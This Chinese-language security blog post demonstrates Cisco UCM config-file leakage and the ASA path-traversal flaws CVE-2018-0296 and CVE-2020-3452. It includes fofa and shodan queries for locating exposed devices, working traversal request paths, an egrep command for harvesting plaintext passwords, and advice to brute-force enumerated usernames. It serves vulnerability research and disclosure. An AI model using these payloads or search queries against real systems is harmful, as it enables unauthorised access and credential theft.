

# cisco 设备信息泄漏漏洞案例 2

上一篇文章介绍了 cisco 路由器设备的 2 个漏洞案例，这次补充 cisco ip 电话设备和安全设备的漏洞案例。

info

本文首发 合天网安 [https://mp.weixin.qq.com/s/uLcVV-jPiT1A\_zTwqkpmgQ](https://mp.weixin.qq.com/s/uLcVV-jPiT1A_zTwqkpmgQ)

- - -

## [](#cisco-ucm-configfilecachelisttxt-%E6%B3%84%E6%BC%8F)CISCO-UCM ConfigFileCacheList.txt 泄漏

CISCO-UCM 全称 Cisco Unified Communications Manager, 是用于集成 CISCO 的语音视频通话、消息传递和移动协作的基础设施

部分 CUCM 服务器在端口 TCP/6970 上有一个 HTTP 服务，其中存在 ConfigFileCacheList.txt 文件，包含位于 TFTP 目录中的所有文件名。

fofa 语句

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>product=="CISCO-UCM"<br>``` |

shodan 语句

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>http.html:"Cisco Unified Communications Manager"<br>``` |

payload

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>x.x.x.x:6970/ConfigFileCacheList.txt<br>``` |

在目标文件中包含了许多 SEP 开头的文件，那是 ip 电话的配置文件，sep 后面接的是 mac 地址

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled.png)

可以遍历下载这个 ConfigFileCacheList.txt 文件内容中的所有文件

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%201.png)

在下载的配置文件中，包含 ip，描述，端口等配置信息

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%202.png)

甚至有的还会包含明文的账号密码

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%203.png)

可以用 egrep 批量查找

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>egrep -r 'Password' *.xml<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%204.png)

在配置文件中获得了账号密码后，可以尝试登录 UCM 的 web 后台

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%205.png)

当然这个 ConfigFileCacheList.txt 泄漏比较少见，如果遇到 UCM 可以试试访问 `/cucm-uds/users` 路径，可以泄漏用户名信息，再针对用户名进一步爆破弱口令

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%206.png)

- - -

## [](#cve-2018-0296-cisco-asa-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E)CVE-2018-0296 Cisco ASA 目录遍历漏洞

Cisco ASA 是思科的防火墙设备，一般用于在企业边界，包含了 ips，avc，wse 等应用功能。

fofa 语句

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>app="CISCO-ASA-5520"<br>``` |

根据文章 [https://www.anquanke.com/post/id/171916](https://www.anquanke.com/post/id/171916) 中的描述，CVE-2018-0296 在不同型号设备上存在 2 种利用场景，一种是拒绝服务造成设备崩溃重启，一种是目录遍历获得敏感信息

在修复方案中则是增加了对`./` 和`../` 的处理逻辑，以防止目录遍历

拒绝服务这里就不具体测试了，主要看下目录遍历的利用

检测 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>/+CSCOU+/../+CSCOE+/files/file_list.json<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%207.png)

注意，类似的 poc 不能在浏览器里直接粘贴访问，因为浏览器会自动将访问的路径类似 /../ 解析为上一级目录，也就是访问的为 `/+CSCOE+/files/file_list.json`

列出 /sessions 目录的内容

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%208.png)

提取登录用户的登录信息

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions/[name]<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%209.png)

- - -

## [](#cve-2020-3452-cisco-asa-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E)**CVE-2020-3452** Cisco ASA 目录遍历漏洞

CVE-2020-3452 漏洞可以在未验证的情况下进行任意文件读取

该漏洞源于 ASA 和 FTD 的 web 服务接口在处理 HTTP 请求的 URL 时缺乏正确的输入验证，导致攻击者可以在目标设备上查看系统内的 web 目录文件。

此漏洞不能用于获取对 ASA 或 FTD 系统文件或底层操作系统 (OS) 文件的访问，所以只能读取 web 系统目录的文件，比如 webvpn 的配置文件、书签、网络 cookies、部分网络内容和超文本传输协议网址等信息。

作者在推特分享的检测 poc

[https://twitter.com/aboul3la/status/1286141887716503553](https://twitter.com/aboul3la/status/1286141887716503553)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua<br>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../<br>``` |

读取 `/+CSCOE+/portal_inc.lua` 文件

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%2010.png)

至于进一步利用，有研究人员给出了一些已知文件列表

[https://twitter.com/HackerGautam/status/1286652700432662528](https://twitter.com/HackerGautam/status/1286652700432662528)

[https://raw.githubusercontent.com/3ndG4me/CVE-2020-3452-Exploit/master/cisco\_asa\_file\_list.txt](https://raw.githubusercontent.com/3ndG4me/CVE-2020-3452-Exploit/master/cisco_asa_file_list.txt)

不过实际测试，除了 `session.js` 跑出了一个乱码的内容以外，其他的文件多是一些资源文件，难以进一步利用。

- - -

## [](#source--reference)Source & Reference

-   [https://www.cisco.com/c/en/us/support/docs/unified-communications/unified-communications-manager-callmanager/200408-Retrieve-Phone-Configuration-File-from-T.html](https://www.cisco.com/c/en/us/support/docs/unified-communications/unified-communications-manager-callmanager/200408-Retrieve-Phone-Configuration-File-from-T.html)
-   [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86)
-   [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
-   [https://sekurak.pl/opis-bledu-cve-2018-0296-ominiecie-uwierzytelnienia-w-webinterfejsie-cisco-asa/](https://sekurak.pl/opis-bledu-cve-2018-0296-ominiecie-uwierzytelnienia-w-webinterfejsie-cisco-asa/)
-   [https://www.anquanke.com/post/id/171916](https://www.anquanke.com/post/id/171916)
